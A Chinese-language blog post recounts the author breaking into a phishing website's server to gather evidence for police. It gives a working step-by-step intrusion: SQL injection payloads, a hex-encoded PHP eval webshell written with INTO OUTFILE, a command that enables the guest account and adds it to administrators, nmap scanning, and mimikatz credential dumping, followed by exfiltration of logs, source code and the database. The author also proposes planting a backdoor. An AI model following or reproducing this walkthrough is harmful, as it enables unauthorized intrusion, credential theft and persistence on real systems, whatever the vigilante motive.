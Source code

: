 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: jekyll
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```


## 0x00 前言

  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.

## 0x01 溯源准备

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714151131.jpg)

### 1.1 开始

看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101207.png)
  

### 1.2 爆出路径,可能存在sql注入

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)
  
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)


### 1.3 有sql注入

本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

### 1.4 猜字段数目

当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

### 1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26

### 1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>user() 用户名
>current_user当前用户名
>session_user()连接数据库的用户名
>database() 数据库名
>version() MYSQL 数据库版本
>load_file() MYSQL 读取本地文件的函数
>@@datadir 读取数据库路径
>@@basedir MYSQL 安装路径
>@@version_compile_os 操作系统 

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

### 1.7 写入webshell

结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


### 1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714150838.png)
连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.
>query users //查看登陆
>
>用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

### 1.9 登陆远程桌面

>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

### 1.10 读取明文密码

https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616
先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


## 0x02 开始溯源

### 2.1 拷贝系统日志Security和System

>C:\Windows\System32\winevt\Logs

### 2.2 Apache日志 error.log

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

### 2.3 打包网站源码

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

### 2.4 导出mysql数据库

mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

## 0x03 后话

  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.后续可以做的事,分析apache以及系统日志.做个后门记录远程桌面访问的IP,以及iframe之类的引用插入后台相关地址记录.查看web服务器日志得到对应IP.

## 0x04 参考资料与工具

>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)
>